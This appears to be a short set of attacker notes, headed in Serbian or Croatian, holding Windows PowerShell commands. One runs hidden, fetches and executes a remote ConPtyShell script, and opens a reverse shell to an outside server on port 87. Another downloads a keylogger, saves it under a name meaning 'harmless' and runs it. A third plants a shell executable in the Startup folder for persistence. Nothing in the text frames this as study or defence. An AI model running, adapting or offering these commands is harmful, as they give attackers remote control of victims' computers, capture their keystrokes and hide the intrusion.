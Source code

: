--- POVEZIVANJE ---

powershell -WindowStyle Hidden -Command "IEX (IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell (Resolve-DnsName jangosserver.eu).IPAddress 87"

--- SKIDANJE I POKRETANJE KEYLOGGERA ---

Invoke-WebRequest -Uri "https://github.com/Jango47/reverseShell/releases/download/keylogger/keylogger.exe" -OutFile "$env:LOCALAPPDATA\bezopasno.exe"
& "$env:LOCALAPPDATA\bezopasno.exe"



https://github.com/Jango47/reverseShell/releases/download/runshell/runshell.exe
Invoke-WebRequest -Uri "https://github.com/Jango47/reverseShell/releases/download/runshell/runshell.exe" -OutFile "$env:LOCALAPPDATA\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\bezopasnishell.exe"

